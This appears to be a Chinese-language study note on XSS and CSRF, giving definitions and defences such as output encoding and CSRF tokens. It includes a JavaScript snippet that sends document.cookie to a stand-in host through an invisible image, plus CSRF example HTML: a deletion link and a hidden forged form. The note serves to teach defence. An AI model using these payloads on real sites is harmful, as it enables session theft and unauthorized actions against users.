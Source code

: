 ### 跨站脚本攻击(XSS,Cross Site Scripting)
- 定义：攻击者通过表单提交恶意script代码，当用户浏览该页时，插入的script代码会被执行
- 危害
  ```js
  var img = document.createElement('img');
  img.width = 0;
  img.height = 0;
  img.src='https://xxx.com?c=' + encodeURIComponent(document.cookie);
  ```
- 防范：对输入进行验证；对输出进行编码
  - 1.vue输出文本自带转码

### 跨站请求伪造(CSRF,Cross-site request forgery)
- 定义：挟制用户在对已登录页面执行非本意的操作
  - 也称为one-click attack 或者session riding
  - 通常缩写为 CSRF 或者 XSRF
- 危害
  ```html
  <!-- 发链接让别人点,get请求 -->
  <a href="https://a.com/删除账号">刺激</a>
  <!-- 站外提交 -->
  <form action="https://a.com/修改昵称" method="post">
    <input type="hidden" name="nickname" value="王二傻">
    <input type="submit" value="提交">
  </form>
  ```
- 防范措施：
  - 1.验证 HTTP Referer 字段
  - 2.token验证(涉及修改操作的接口,token可以相同)
    - 1.服务端生产一个Token,放在session或cookie中
    - 2.表单上附带Token参数
    - 3.用户提交后，服务端验证提交的Token与服务端session或传来的cookie 是否一致
  - 3.尽量使用post,限制get
    - post并非万无一失，攻击者用form表单就可以，但需要在第三方页面做，增加了暴露的可能
